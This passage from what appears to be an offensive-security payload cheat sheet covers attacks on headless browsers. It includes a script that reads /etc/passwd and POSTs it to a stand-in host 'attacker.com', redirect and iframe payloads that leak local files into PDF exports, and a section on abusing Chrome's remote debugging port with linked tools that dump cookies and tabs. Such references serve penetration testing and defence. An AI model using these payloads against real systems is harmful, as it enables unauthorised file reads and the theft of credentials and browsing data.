 Since the file access is allowed, an atacker can create and expose an HTML file which captures the content of the `/etc/passwd` file.

```js
<script>
  async function getFlag(){
    response = await fetch("file:///etc/passwd");
    flag = await response.text();
    fetch("https://attacker.com/", { method: "POST", body: flag})
  };
  getFlag();
</script>
```

### PDF Rendering

Consider a scenario where a headless browser captures a copy of a webpage and exports it to PDF, while the attacker has control over the URL being processed.

Target: `google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* Javascript Redirect

    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* Iframe

    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```

## Remote Debugging Port

The Remote Debugging Port in a headless browser (like Headless Chrome or Chromium) is a TCP port that exposes the browser’s DevTools Protocol so external tools (or scripts) can connect and control the browser remotely. It usually listen on port **9222** but it can be changed with `--remote-debugging-port=`.

**Target**: `google-chrome-stable --headless=new --remote-debugging-port=XXXX ./index.html`

**Tools**:

* [slyd0g/WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) - Interact with Chromium-based browsers' debug port to view open tabs, installed extensions, and cookies
* [slyd0g/ripWCMN.py](https://gist.githubusercontent.com/slyd0g/955e7dde432252958e4ecd947b8a7106/raw/d96c939adc66a85fa9464cec4150543eee551356/ripWCMN.py) - WCMN alternative using Python to fix the websocket connection with an empty `origin` Header.
